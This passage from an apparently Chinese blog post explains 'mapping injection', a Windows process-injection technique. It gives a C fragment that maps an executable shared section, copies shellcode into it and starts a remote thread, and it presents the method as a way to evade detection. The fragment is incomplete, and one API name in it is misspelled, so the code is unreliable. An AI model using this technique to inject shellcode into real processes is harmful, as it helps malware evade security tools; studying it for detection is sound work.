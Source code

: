 以上的方法属于是同一类，仅仅是执行的方式不同，下面通过更换申请内存的方式来进行注入。

## 3、映射注入

![image-20230410210734058](6种常见注入方式/image-20230410210734058.png)

就是通过在内存中申请一块公共内存，然后将这块内存映射到注入程序和被注入程序，这样需要修改shellcode的时候仅需要在注入程序中修改，就可以同时映射到被注入内存中。

![image-20230201145854913](6种常见注入方式/image-20230201145854913.png)

这种注入方式规避了`VirtualAllocEx`和`WriteProcessMemory`这些写内存的敏感函数的检测，所以该方法一般被用来当作是一种写shellcode的方式，和其他的执行方式相结合

但是在分享的时候没有给出具体的代码，只给出了零碎的一些片段

```c
// 创建一个内存区域，并且读写执行权限
NtCreateSection(&sectionHandle, SECTION_MAP_READ|SECTION_MAP_WRITE|SECTION_MAP_EXECUTE, NULL, (PLARGE_INTEGER)&sectionSize, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);
// 将这块内存区域映射到注入进程中
NtMapViewOfSection(sectionHandle, GetCurrentProcess(), &localSectionAddress, NULL, NULL, NULL, &size, 2, NULL, PAGE_READWRITE);
// 将shellcode复制到内存区域
memcpy(localSectionAddress, shellcode, sizeof(shellcode));
// 创建远程线程执行
RtCreateUserThread(targetHandle, NULL, FALSE, 0, 0, 0, remoteSectionAddress, NULL, &targetThreadHandle, NULL);
```
